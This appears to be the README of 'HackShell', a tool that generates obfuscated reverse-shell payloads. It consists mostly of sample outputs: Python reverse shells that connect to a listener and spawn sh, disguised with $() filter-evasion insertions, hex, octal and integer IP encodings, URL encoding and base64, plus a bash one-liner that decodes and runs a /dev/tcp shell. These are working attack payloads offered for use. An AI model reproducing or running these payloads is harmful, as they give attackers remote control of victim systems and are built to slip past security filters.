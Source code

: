 # HackShell - Generator of some different reverse shells:
```
usage: python hackshell.py --payload bash --lhost 192.168.0.20 --lport 443 --type hex

.------..------..------..------..------..------..------..------..------.
|H.--. ||A.--. ||C.--. ||K.--. ||S.--. ||H.--. ||E.--. ||L.--. ||L.--. |
| :/\: || (\/) || :/\: || :/\: || :/\: || :/\: || (\/) || :/\: || :/\: |
| (__) || :\/: || :\/: || :\/: || :\/: || (__) || :\/: || (__) || (__) |
| '--'H|| '--'A|| '--'C|| '--'K|| '--'S|| '--'H|| '--'E|| '--'L|| '--'L|
`------'`------'`------'`------'`------'`------'`------'`------'`------'

optional arguments:
  -h, --help         show this help message and exit
  --payload PAYLOAD  bash,zsh,nc,php,python,perl,ruby,lua,groovy,nodejs,all
  --lhost LHOST      ip
  --lport LPORT      port
  --type TYPE        b64,urle,int,octa,hex,jlre,funf
```
`
python hackshell.py --payload python --lhost 192.168.0.20 --lport 443 --type hex
`
```
py$()thon -$()c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("0xC0A80014",443));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);import pty; pty.spawn("sh")
```
`
python hackshell.py --payload python --lhost 192.168.0.20 --lport 443 --type octa
`
```
py$()thon -$()c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("0300.0250.0000.0024",443));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);import pty; pty.spawn("sh")
```
`
python hackshell.py --payload python --lhost 192.168.0.20 --lport 443 --type long
`
```
py$()thon -$()c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("3232235540",443));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);import pty; pty.spawn("sh")'
```
`
python hackshell.py --payload python --lhost 192.168.0.20 --lport 443 --type jlre
`
```
py%24%28%29thon%20%24%28%29c%20%27import%20socket%2Csubprocess%2Cos%3Bs%3Dsocket.socket%28socket.AF_INET%2Csocket.SOCK_STREAM%29%3Bs.connect%28%28%22192.168.0.20%22%2C443%29%29%3Bos.dup2%28s.fileno%28%29%2C0%29%3Bos.dup2%28s.fileno%28%29%2C1%29%3B%20os.dup2%28s.fileno%28%29%2C2%29%3Bimport%20pty%3B%20pty.spawn%28%22sh%22%29%27
```
`
python hackshell.py --payload python --lhost 192.168.0.20 --lport 443 --type b64
`
```
cHkkKCl0aG9uIC0kKCljICdpbXBvcnQgc29ja2V0LHN1YnByb2Nlc3Msb3M7cz1zb2NrZXQuc29ja2V0KHNvY2tldC5BRl9JTkVULHNvY2tldC5TT0NLX1NUUkVBTSk7cy5jb25uZWN0KCgiMTkyLjE2OC4wLjIwIiw0NDMpKTtvcy5kdXAyKHMuZmlsZW5vKCksMCk7b3MuZHVwMihzLmZpbGVubygpLDEpOyBvcy5kdXAyKHMuZmlsZW5vKCksMik7aW1wb3J0IHB0eTsgcHR5LnNwYXduKCJzaCIpJw==
```
`
python hackshell.py --payload bash --lhost 192.168.0.20 --lport 443 --type jlre
`
```
bash -c {echo,YmEkKClzaCAtJCgpaSAnL2Rldi90Y3AvMTkyLjE2OC4wLjIwLzQ0MyAwPiYxJw==}|{base64,-d}|{bash,-i}
```